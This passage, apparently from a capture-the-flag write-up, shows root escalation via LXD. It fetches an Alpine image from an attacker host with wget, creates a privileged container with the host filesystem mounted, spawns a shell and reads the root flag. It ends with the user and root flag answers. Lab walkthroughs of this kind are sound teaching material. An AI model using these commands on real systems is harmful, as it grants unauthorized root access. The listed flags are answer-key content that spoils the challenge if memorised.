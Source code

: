 On the target:

```bash
cd /tmp
wget http://10.201.9.89:8000/alpine-v3.22-x86_64-20250904_2340.tar.gz -O alpine.tar.gz
```

I then initialized LXD, imported the image, and created a privileged container:

```bash
lxd init --auto
lxc image import alpine.tar.gz --alias pwnimg
lxc init pwnimg pwnbox -c security.privileged=true
lxc config device add pwnbox hostroot disk source=/ path=/mnt/root recursive=true
lxc start pwnbox
lxc exec pwnbox /bin/sh
```

Inside the container I had root and full access to the host filesystem under `/mnt/root`.

I read the root flag from the host:

```bash
cat /mnt/root/root/root.txt
```

---

## Flags

> Q1: User flag
> A1: a5c2ff8b9c2e3d4fe9d4ff2f1a5a6e7e

> Q2: Root flag
> A2: 2e337b8c9f3aff0c2b3e8d4e6a7c88fc
